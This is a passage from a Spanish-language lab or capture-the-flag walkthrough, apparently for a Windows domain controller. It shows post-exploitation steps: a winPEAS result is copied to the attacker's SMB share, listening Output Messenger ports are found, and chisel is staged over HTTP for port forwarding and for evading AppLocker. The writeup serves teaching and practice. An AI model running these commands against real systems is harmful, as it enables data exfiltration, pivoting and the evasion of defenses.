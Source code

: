 Copiaremos el archivo `result.txt` en el recurso compartido SMB que hemos levantado desde Kali.

```powershell
PS C:\Windows\System32\spool\drivers\color> copy result.txt \\10.10.16.5\smbFolder\result.txt
```

Revisando el resultado obtenido del escaneo de `winPEAS`, verificamos que existen varios puertos en escucha sobre la aplicación de `Output Messenger`. Lo cual nos hace pensar que la aplicación está en ejecución en el DC actualmente.

<figure><img src="../../.gitbook/assets/3781_vmware_3etBeOfUpS.png" alt=""><figcaption></figcaption></figure>

### Performing a Windows port forwarding to my Kali machine

Disponemos de los siguientes puertos que utiliza la aplicación `Output Messenger`, nuestro objetivo será compartir estos puertos internos del DC hacía nuestra Kali Linux mediante _**Port Forwarding**_.

{% hint style="success" %}
14118 14119 14121 14122 14123 14125 14126 14127 14128 14130 14406
{% endhint %}

En nuestra Kali, deberemos de disponer de los binario de chisel para UNIX y Windows. El binario de `chisel.exe` lo dberemos de compartir en el Domain Controller a través de un servidor web.

```bash
❯ ls -l chisel*
.rwxr-xr-x root root 8.9 MB Fri Jan 17 22:34:37 2025  chisel
.rw-r--r-- root root 9.3 MB Fri Jan 17 22:34:34 2025  chisel.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, descargaremos el binario `chisel.exe` en la ruta donde el AppLocker no nos lo detecte.
